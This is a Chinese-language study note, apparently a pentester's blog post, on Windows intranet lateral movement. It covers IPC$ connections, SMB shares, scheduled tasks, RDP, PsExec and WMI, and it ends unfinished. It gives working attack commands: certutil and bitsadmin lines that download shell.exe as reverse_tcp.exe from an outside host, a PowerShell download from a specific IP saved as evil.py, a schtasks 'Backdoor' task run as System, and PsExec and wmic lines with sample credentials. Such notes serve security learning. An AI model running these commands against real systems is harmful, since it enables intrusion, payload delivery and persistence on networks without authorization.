
调用成功
发现dll劫持 可以直接 做一个dll过去换掉 重启服务应该就是能行了
横向移动
横移中的文件传输
通过网络共享
net share ipc需要管理员权限呢

实战往往中建立IPC$连接（不仅文件共享 还能进行其他远程管理）
建立IPC$的两个条件 1 主机开启IPC连接 2 主机开放 139和445
1 | 建立连接 |

列出远程主机C盘共享目录
1 | dir \\192.168.1.130\C$ |

1 | copy C:\Users\paleonec\Desktop\C6F56D1B9609ABCE104C2934DC7BB327.jpg \\192.168.1.130\C$ |
1 | 访问其他 共享也一样 |
IPC
利用命令：
net use \\<目标IP>\ipc$ "<密码>" /user:<用户名>进行IPC连接net use查看连接信息net use E: \\<目标IP>\C$把目标C盘映射到本地E盘net use E: /del删除磁盘映射利用条件：
IPC$可以实现远程登陆及对默认共享资源的访问，而139端口的开启表示NetBIOS协议的应用。通过139、445端口，可以实现对共享文件/打印机的访问。因此，一般来说，IPC$需要139、445端口的支持。连接失败原因
- 用户名密码错误
- 目标没有打开ipc$共享
- 不能成功连接目标的139、445端口
- 命令输入错误
常见错误号
- 错误号5：拒绝访问
- 错误号51：Windows无法找到网络路径，即网络中存在问题
- 错误号53：找不到网络路径，包括IP地址错误、目标未开机、目标的lanmanserver服务未启动、目标有防火墙
- 错误号67：找不到网络名，包括lanmanworkstation服务未启动，ipc$已被删除
- 错误号1219：提供的凭据和已存在的凭据集冲突
- 错误号1326：未知的用户名密码
- 错误号1792：试图登录，但网络登录服务没有启动，包括目标NetLogon服务未启动（连接域控制器时会出现此情况）
- 错误号2242：此用户名密码已过期。例如目标机器设置了账号管理策略，强制修改密码
常用命令
使用以下命令的前提时建立了ipc$连接
dir \\<目标IP>\c$，列出远程主机C盘文件tasklist /S <目标IP> /U <用户名> /P <密码>列出远程主机的进程type \\<目标IP>\<绝对路径>读取远程主机文件
搭建SMB服务器
smb 服务器消息块 又称网络文件共享系统 基于应用层
一般使用NetBIOS协议或者TCP 分别使用139或445
实战中可以 在vps或受控内网机搭建smb 将文件放入共享目录 指定UNC路径 让目标远程加载SMB共享文件 需要使用SMB 匿名共享 且搭建的服务器能被访问
Linux 通过Impacket提供的smbserver.py搭建
Windows如果有管理员权限 可以手动配置smb匿名共享 也可以通过 Invoke-BuildAnoymouSMBServer在本地快速启动匿名共享
Windows自带工具
Certuil
提供了从网络中下载文件的功能
1 | certutil -urlcache -split -f http://IP:PORT/shell.exe C:\reverse_tcp.exe |

本地 检测会被火绒/Defender拦
BITSAdmin
win7以后自带
1 | bitsadmin /transfer test http://IP:PORT/shell.exe C:\reverse_tcp.exe |

不好使 傻逼工具 不是system用不了
powershell
参考远程加载执行的思路
1 | powershell (new-object System.Net.WebClient).DownloadFile('http://123.249.22.36/1.py','evil.py') |
其他
- 可上传免安装的可执行程序wget.exe到目标机器，使用wget下载文件。
- ftp 等等
创建计划任务
常规流程
可以通过已有的IPC 在远程主机上创建计划任务 让目标主机定时或周期执行页数操作 在管理员权限下 通过计划任务横移
1 | 1利用已建立的共享连接 传马 |
也可以通过计划任务在主机上执行系统命令 将结果写入文件 然后通过type命令远程读取
1 | schtasks /Create /S 10.10.10.19 /TN Backdoor /SC minute /MO 1 /TR "C:\Windows\System32\cmd.exe /c 'whoami > C:\result.txt'" /RU System /f |
UNC路径加载执行
Windows使用UNC访问网络共享资源
\\servername\sharename\directory\filename
servername是服务器主机名 sharename是共享网络名称 firectory是共享下的目录filename是文件
远程主机上攻击载荷 可以直接使用UNC代替常规本地路径 让主机直接在测试人员搭建的SMB共享中加载载荷并执行 可以省去手动上传载荷的步骤
远程桌面RDP利用
默认 tcp3389
可能 会将已登录的用户强制退出 容易被发现
查询是否开启RDP
reg query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections

若为 0x0是已经启动 若为1 则RDP已经被禁用
1 | #开启远程桌面连接 |
远程主机通过WMI开启
wmic /Node:10.10.10.19 /User:Administrator /Password:123456 RDTOGGLE WHRER ServerName='WIN2016=WEB3' call SetAllowTSConnections 1
RDP Hijacking
system权限
query user
执行tscon
SharpRDP 开源工具 开启远程桌面放行3389直接连接
PSEXEC
原理 通过smb连接到服务器Admin$共享 并释放 “psexesvc.exe”二进制文件 注册名为 “PSEXESVC”服务 当客户端执行命令 服务端通过服务执行命令 回显数据
条件
1.远程主机开启Admin$共享
2.防火墙未开启或开启445
1 | PsExec.exe -acceptula \\10.10.10.19 -u HACK-MY\Administrator -p Admin@123 -s cmd.exe |
内网渗透中 如果已有相应凭据 可以直接使用psexex连接远程主机
Imapacket 和MSF中内置了psexec模块
WMI
windows管理规范
横移时 可以利用WMI提供的管理功能 通过以获取的用户凭据 与本地或远程主机进行交互 并控制其执行各种行为
两种利用方法
1 调用WMI的类方法进行远程执行 如 Win32_Proces中的Create方法可以在远程主机创建进程
Win32_Product类中Install方法可以在远程主机安装恶意MSI
2.远程部署WMI事件订阅 在特定条的事件发生时触发攻击
条件 1.WMI服务开启 2 .主机放行135端口
未完待续
 wechat
wechat alipay
alipay